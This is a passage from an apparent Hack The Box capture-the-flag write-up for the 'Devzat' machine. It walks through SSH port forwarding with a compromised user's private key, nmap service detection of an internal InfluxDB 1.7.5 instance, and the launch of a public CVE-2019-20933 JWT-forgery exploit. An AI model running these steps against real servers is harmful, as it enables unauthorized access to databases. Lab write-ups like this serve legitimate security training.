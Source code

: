 ```
LISTEN                0                     4096                                     127.0.0.1:8443                                    0.0.0.0:* 
LISTEN                0                     511                                              *:80                                            *:*  
LISTEN                0                     128                                           [::]:22                                         [::]:* 
LISTEN                0                     4096                                             *:8000                                          *:*                    users:(("devchat",pid=852,fd=7))                
patrick@devzat:~$ ls /home/patrick/.ssh/
authorized_keys  id_rsa  known_hosts
patrick@devzat:~$ ssh -N -L 0.0.0.0:6969:127.0.0.1:8086 -i /home/patrick/.ssh/id_rsa patrick@10.10.11.118
The authenticity of host '10.10.11.118 (10.10.11.118)' can't be established.
ECDSA key fingerprint is SHA256:0rsaIiCqLD9ELa+kVyYB1zoufcsvYtVR7QKaYzUyC0Q.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.118' (ECDSA) to the list of known hosts.

──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ nmap -sC -sV 10.10.11.118 -p 6969 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 14:52 EST
Nmap scan report for devzat.htb (10.10.11.118)
Host is up (0.096s latency).

PORT     STATE SERVICE VERSION
6969/tcp open  http    InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.28 seconds
```
Perfect our port forwarding is working and we have a webservice running at that new port. What is it and how can we breat it?
![influx](https://i.imgur.com/Sb4y3Hn.png)
```bash
┌──(kali㉿kali)-[~/Documents/htb/devzat]
└─$ searchsploit influx
Exploits: No Results
Shellcodes: No Results
Papers: No Results
```

So nothing at exploit-db, but github seems to have some answers. https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933

It seems like a unauthenticated user can gain access through a forged JWT cookie. Perfect, lets just grab that and fire it up
## Exploit
To be honest, it's just sql, and the exploit is verry self explanitory. So lets just run it and get the data
```sql
┌──(kali㉿kali)-[~/Documents/htb/devzat/InfluxDB-Exploit-CVE-2019-20933] 
└─$ python ./__main__.py
  _____        __ _            _____  ____    ______            _       _ _   
 |_   _|      / _| |          |  __ \|  _ \  |  ____|          | |     (_) | 
   | |  _ __ | |_| |_   ___  __ |  | | |_) | | |__  __  ___ __ | | ___  _| |_  
   | | | '_ \|  _| | | | \ \/ / |  | |  _ <  |  __| \ \/ / '_ \| |/ _ \| | __|
  _| |_| | | | | | | |_| |>  <| |__| | |_) | | |____ >  <| |_) | | (_) | | |_  
 |_____|_| |_|_| |_|\__,_/_/\_\_____/|____/  |______/_/\_\ .__/|_|\___/|_|\__| 
                                                         | |
                                                         |_|     
 - using CVE-2019-20933 
Host (default: localhost): 10.10.11.118 
```